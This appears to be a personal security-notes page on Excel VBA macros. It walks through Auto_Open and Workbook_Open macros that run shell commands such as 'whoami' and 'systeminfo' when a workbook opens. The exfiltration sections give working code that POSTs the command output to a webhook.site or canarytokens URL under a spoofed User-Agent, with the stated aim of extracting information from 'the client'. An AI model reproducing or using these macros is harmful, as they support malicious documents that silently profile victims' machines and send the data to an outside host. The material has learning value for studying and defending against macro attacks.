 # Excel and Macros

### Introduction

Macros on Excel allow a user to run Visual Basic Code in the background of a document. This section of my website will be dedicated to playing around with macros, and finding ways to extract information from the client.

### Setup

In order to create a Excel file that we are able to create macros, we will have create a file with an extension of ".xlsm". This version of Excel has macros enabled, and will allow us to make and edit macros on it. This file version should be standard in Excel, so in order to do this, you just have to create a file and save it in the ".xlsm" format. Under the View tab, you will see Macros, and from there you can edit the macros.

### Popup Message

We can create a popup message that will appear when somebody enables the macros when they first open the document.

```cpp
'Code gotten from https://analysistabs.com/excel-vba/run-macro-automatically-opening-workbook/'
Sub Auto_Open()
    Msgbox "Popup Message Here"
End Sub
```

### Print Desktop Name

We can use the Visual Basic code to display the name of the Desktop to the screen when macros are enabled.

```csharp
'Source: https://www.youtube.com/watch?v=e2icQFxhp3w'
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("whoami")
    MsgBox (Excel_Shell_Exec.StdOut.ReadAll)
End Sub
```

We have to copy this code under Microsoft Excel Objects in order to get it to work.

![On the right top we can see where the code will be edited](../.gitbook/assets/screenshot-2021-03-06-150627.png)

After this you can save and exit the Excel file. When you open it again, there should be a popup with the Desktop name.

### System Information Exfiltration

This code is meant for Windows systems \(tested on Windows 10\), and sends the output of the "systeminfo" command on Windows to an external website, where you can read it by entering your own webhook link. The client will notice the Command Prompt pop up for this code.

```csharp
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("systeminfo")
    'Source: https://stackoverflow.com/questions/158633/how-can-i-send-an-http-post-request-to-a-server-from-excel-using-vba'
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "your https://webhook.site link"
    objHTTP.Open "POST", Url, False
    objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    objHTTP.send ("Systeminfo: " + Excel_Shell_Exec.StdOut.ReadAll)
End Sub

```

### Integrating Canary Tokens

Canary Tokens are a way to track an IP address when they do a certain task. This could be accessing a website or even requesting a DNS hostname. We can use the previous code and incorporate a Canary Token into it.

```csharp
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("whoami")
    'Source: https://stackoverflow.com/questions/158633/how-can-i-send-an-http-post-request-to-a-server-from-excel-using-vba'
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "http://canarytokens.com/static/about/your_own_token/contact.php"
    objHTTP.Open "POST", Url, False
    objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    objHTTP.send ("Systeminfo: " + Excel_Shell_Exec.StdOut.ReadAll)
End Sub

```

In line 6, we can see the canary token being used. Once we access the token, it then sends the information to the email or webhook we have used initially. Our output should look like this:

```csharp
{
  "manage_url": "https://canarytokens.org/manage?token=Took_this_out&auth=Took_this_out",
  "memo": "Website Accessed ",
  "additional_data": {
    "src_ip": "Your IP",
    "useragent": "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)",
    "referer": null,
    "location": null
  },
  "channel": "HTTP",
  "time": "2021-03-07 20:25:36 (UTC)"
}
```

